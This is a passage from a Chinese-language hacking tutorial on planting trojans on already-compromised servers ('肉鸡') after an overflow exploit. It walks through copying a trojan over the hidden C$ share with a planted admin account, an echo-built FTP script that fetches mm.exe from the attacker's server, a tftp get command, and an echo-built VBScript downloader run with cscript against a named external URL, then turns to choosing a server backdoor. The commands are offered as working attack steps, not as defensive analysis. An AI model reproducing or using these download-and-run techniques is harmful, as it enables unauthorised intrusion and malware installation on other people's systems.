

#### 小知识：什么是 IPC$

IPC$(Internet Process Connection) 是共享“命名管道”的资源，它是为了让进程间通信而开放的命名管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换，从而实现对远程计算机的访问。通常，系统在默认情况下都会安装的，它所有的盘都是隐藏共享的（也就是说在每一个系统盘后加个 $，比如 C$、D$、E$ 等）。

如果大家不想在 CMD 下摸黑操作的话，还可以使用 Windows 的可视化进行远程复制。首先在本地电脑中打开“我的电脑”，在地址栏中输入“\\192.168.0.100\c$”就可以



图2.14



图2.15

直接连接到对方主机，然后输入刚才新建的管理员帐号密码就可以成功登录了，如图2.14。成功登录后便会列出对方默认的C盘共享文件，由于使用管理员帐号X登录的，所以也就有了管理员的权限，直接将木马复制进去就行了，如图2.15。

### 2.3.2 通过FTP文件传输协议的传送方式

大家可能有所不知，在溢出得到的Shell下使用FTP命令登录服务器，输入用户名后还没等输入密码，CMD窗口就停顿在那里处于假死状态了，而且只要网络一不稳定，CMDSHELL就有可能挂掉。不过还好FTP服务是支持脚本登录的，我们可以把使用到的命令保存到一个文件中，然后执行一个命令让所有的命令自动去执行，脚本如下：

```
echo o 192.168.0.1>ftp.txt
echo 123>>ftp.txt
echo 456>>ftp.txt
echo bin>>ftp.txt
echo get mm.exe>>ftp.txt
echo bye>>ftp.txt
```

> **小知识：ECHO 和管道重定向字符**

ECHO结合管道重定向字符“>”和“>>”可以方便的将内容写入指定文件里。TYPE命令可以用来查看文件内容，DEL删除指定文件。需要注意的是上边的命令中第一个echo后面跟的是一个“>”，后面的每一个echo都是两个“>>”。“>”会覆盖掉file.txt里面的全部内容，而“>>”则表示在文件的末尾追加内容。

以上命令需要在Shell下一行行的执行，如图2.16，就可以将脚本输出到ftp.txt文件中了，如图2.17，其中123是FTP的帐号，456是FTP的密码，我们还可以执行**type ftp.txt**命令来确认一下脚本的正确性。如果FTP的端口不是系统默认的21号那该怎么办



呢？可以改成“echo o 192.168.0.1 8000>ftp.txt”，就可以将连接端口更改为8000了。准备好之后就可以在CMD中执行**ftp -s:ftp.txt**命令，调用FTP的-S参数来执行脚本的内容，自动开始连接FTP服务器了，如图2.18。那么下载的文件被保存到哪里了呢？不用担心，系统会自动保存在执行命令的目录下。特别注意：管道重定向字符“>”、“>>”和前面的字符不要有任何空格，否则可能会执行失败，如图2.19。如果我们在网上没有FTP空间的话，还可以考虑在自己的电脑上开启FTP服务，推荐大家使用20CN MINI FTP服务器来搭建，双击打开程序后在

图2.16





图2.17

“侦听端口”栏输入21（默认的FTP端口），最大连接数默认为100，帐号名称为“123”，帐号密码为“456”；欢迎信息和退出信息大家自己看着填写就行，

图2.18



访问目录就是你的木马保存在那个目录中，由于只是给对方传送木马，所以只勾选“下载文件”的权限即可，如图2.20，最后点击“启动服务”就可以开启本机的FTP服务了。

图2.19

### 2.3.3 非常不错的TFTP方式

这种方式的限制很少，适用于大部分的环境，特别是在公网环境下。TFTP其实就是FTP的超级简化版本，所以在使用的时候也需要一个TFTP服务端，TFTP32就是一款不错的TFTP服务端。程序运行后会自动把它







所在的目录做为根目录，并且自动监听系统的 UDP 协议的 69 端口（这就跟 FTP 监听 TCP 协议的 21 端口一样），如图 2.21。我们把木马（假设名字为 mm.exe）拷贝到这个目录下，在溢出得到的 CMDSHELL 中执行“tftp -i 你的IP地址 get mm.exe”就可以把和 TFTP 服务端程序处在同一个目录下的 mm.exe 上传到主机中了，如图 2.22。我们也可以从 TFTP32 中看到传送文件的具体信息。

> **小知识：什么是TFTP**

TFTP（Trivial File Transfer Protocol，简单文件传输协议）是 TCP/IP 协议族中的一个用来在客户机与服务器之间进行简单文件传输的协议，提供不复杂、开销不大的文件传输服务。基于 UDP 协议而实现，此协议设计的时候是进行小文件传输的。因此它不具备像 FTP 这样多的功能，它只能从文件服务器上获得或写入文件，不能列出目录，不进行认证。

### 2.3.4 增强版VBS脚本程序下载木马

它可以自动实现下载文件的功能，类似于 FTP 脚本一句句的将脚本输出到一个 VBE 脚本中，然后再使用 Cscript 解释程序解释执行这个脚本即可，脚本内容如下，如图 2.23。

```
echo iLocal = LCase(WScript.Arguments(1)) >iget.vbe
echo iRemote = LCase(WScript.Arguments(0)) >>iget.vbe
echo Set xPost = CreateObject("Microsoft.XMLHTTP") >>iget.vbe
echo xPost.Open "GET", iRemote, 0 >>iget.vbe
echo xPost.Send() >>iget.vbe
echo Set sGet = CreateObject("ADODB.Stream") >>iget.vbe
echo sGet.Mode = 3 >>iget.vbe
echo sGet.Type = 1 >>iget.vbe
echo sGet.Open() >>iget.vbe
echo sGet.Write(xPost.responseBody)>>iget.vbe
echo sGet.SaveToFile iLocal,2 >>iget.vbe
```

> **小知识：什么是VBS？**

VBScript 的全称是 Microsoft Visual Basic Script Edition（微软公司可视化 BASIC 脚本版）。VBS（VBScript 的进一步简写）是基于 Visual Basic 的脚本语言。脚本语言不编译成二进制文件，而是由宿主（Host）解释执行；即程序可直接以 `.vbs` 源文件形式运行。

我们在 CMD 中一行行执行后，会生成名为 `iget.vbe` 的脚本文件。还可以使用 `type iget.vbe` 在 CMD 中确认脚本正确性。脚本无误即可执行 `cscript iget.vbe "http://54abu.cn/mm.exe" "mm.exe"`，让系统联网下载木马并重命名为 `mm.exe` 保存在当前目录。



图2.23

### 2.4 攻占主机系统

学会上述方法后，需要考虑给肉鸡上传何种后门。通过 DNS 漏洞入侵的目标多数是服务器，因此应保留针对服务器的后门。普通后门与服务器后门在隐蔽性、稳定性及功能需求上存在差异，例如普通后门更易被查杀，而服务器后门需要更高隐蔽性与稳定性。

